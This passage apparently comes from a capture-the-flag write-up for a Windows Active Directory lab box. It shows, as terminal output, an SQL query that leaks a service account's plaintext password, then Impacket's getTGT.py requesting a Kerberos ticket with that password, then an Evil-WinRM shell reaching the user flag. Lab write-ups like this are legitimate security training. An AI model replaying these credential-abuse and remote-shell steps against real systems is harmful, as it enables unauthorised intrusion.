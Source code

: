 ```bash
SQL (SCRM\administrator  dbo@master)> select * from ScrambleHR.dbo.UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900   scrm.local                90               
```

```bash
──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo python3 getTGT.py scrm.local/MiscSvc:ScrambledEggs9900 
[sudo] password for pwn: 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in MiscSvc.ccache

```

```bash
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\miscsvc\Documents> dir
*Evil-WinRM* PS C:\Users\miscsvc\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\miscsvc\desktop> dir


    Directory: C:\Users\miscsvc\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/18/2025   6:09 PM             34 user.txt

```

---

